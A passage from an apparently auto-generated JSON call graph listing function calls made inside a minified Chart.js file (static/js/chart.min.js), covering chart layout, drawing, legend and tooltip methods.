"initOffsets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getTimestampsForTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildLookupTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initOffsets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildLookupTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_generate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getTimestampsForTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "interpolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pathSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "interpolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isDatasetVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBaseValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPositionForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pathSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pathSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pathSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pathSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "interpolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterDatasetsUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isDatasetVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateControlPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeDatasetsDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeDatasetDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeTitleHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_fitRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_fitCols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_fitRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_fitCols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "adjustHitBoxes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeTitleHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "leftForLtr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "leftForLtr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "textAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeTitleHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "textAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "xPlus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "leftForLtr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "textAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeTitleHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLegendItemAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLegendItemAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "adjustHitBoxes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "onClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isDatasetVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSortedDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawArgs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawArgs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "average"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tooltipPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "nearest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tooltipPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "override"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "title"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "label"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "labelColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "labelTextColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "labelPointStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBeforeBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 